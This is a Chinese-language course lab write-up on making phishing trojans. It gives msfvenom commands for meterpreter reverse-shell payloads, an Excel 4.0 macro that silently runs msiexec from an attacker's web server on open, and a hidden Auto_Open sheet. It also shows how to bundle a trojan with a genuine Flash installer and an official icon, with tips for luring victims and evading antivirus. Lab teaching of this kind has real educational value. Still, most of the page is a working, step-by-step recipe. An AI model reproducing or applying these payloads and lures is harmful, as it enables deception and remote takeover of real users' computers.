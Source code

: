 ```yaml
---
title: 实验五--权限提升技术
slug: /course/NPTT/test5
sidebar_position: 5
---
```


## 实验目的

1、学会制作简单的钓鱼样本并理解钓鱼样本木马的工作原理.

## 实验任务

1、制作恶意的excel文件

2、将正常的软件和恶意木马进行捆绑打包

## 实验步骤

### excel宏

输入下列命令后，即可在目录下看到生成的msi

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.129 lport=1234 -f msi -o diaoyu.msi
```

![image-20240714204850148](https://img.crzliang.cn/img/202407142110164.png)

然后启动msf，使用multi/handler模块，并设置好对应的payload，然后输入run，进行监听

![image-20240714204924242](https://img.crzliang.cn/img/202407142110165.png)

然后启动python的http服务，是为了后续制作宏的时候提供网络服务

![image-20240714204934617](https://img.crzliang.cn/img/202407142110076.png)

在自己的电脑上创建一个excel表格（实际情况下，文件名要符合实际，有吸引力，里面的内容最好也是真实的，这里因为是实验环境，所以数据都是捏造的)

![image-20240714204948779](https://img.crzliang.cn/img/202407142110166.png) 

然后插入宏表

![image-20240714205003681](https://img.crzliang.cn/img/202407142110167.png)

![image-20240714205014322](https://img.crzliang.cn/img/202407142110168.png)

打开浏览器输入kali的ip地址，看到下图后右键diaoyu.msi，选择复制链接地址

![image-20240714205024076](https://img.crzliang.cn/img/202407142110169.png)

 然后在表格第一行输入

```bash
 =EXEC("msiexec /q /i http://192.168.100.129/shell.msi")
```

 第二行输入

```bash
 =HALT()
```

然后选择A1的框，把A1改成Auto_Open（让excel打开时自动执行宏）然后回车即可

![image-20240714205100492](https://img.crzliang.cn/img/202407142110170.png)

 然后就是隐藏宏，右键“宏1”，然后选择隐藏

![image-20240714205108651](https://img.crzliang.cn/img/202407142110171.png)

 然后保存为启用宏的文件，点击保存类型，选择里面的启用宏的工作簿即可

![image-20240714205113197](https://img.crzliang.cn/img/202407142110172.png)

 然后把文件传到靶机上，我这里以Windows7为例
 在靶机上点开文件并启用内容

![image-20240714205125500](https://img.crzliang.cn/img/202407142110173.png)

 然后切回kali即可看到成功连接上，输入shell即可获得相应的shell

![image-20240714205131436](https://img.crzliang.cn/img/202407142110174.png)

### 常规软件捆绑远控木马进行钓鱼

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=7777 -f exe -o flash.exe
```

因为是msf直接生成的没有做免杀，所以拷到本地的时候记得关闭安全软件，不然会报毒

然后还要去flash官网下载一个真正的，图片右一

![image-20240714205158278](https://img.crzliang.cn/img/202407142110175.png)

把这两个文件按下列图片进行压缩打包，为了降低受害者的心里防备，最好是可以把打包好的应用的图标改成官方的图标。

![image-20240714205250711](https://img.crzliang.cn/img/202407142110176.png)

![image-20240714205254262](https://img.crzliang.cn/img/202407142110177.png)

![image-20240714205300874](https://img.crzliang.cn/img/202407142110178.png)

把制作好的恶意文件放到靶机上运行即可成功上线

![image-20240714205305641](https://img.crzliang.cn/img/202407142110179.png)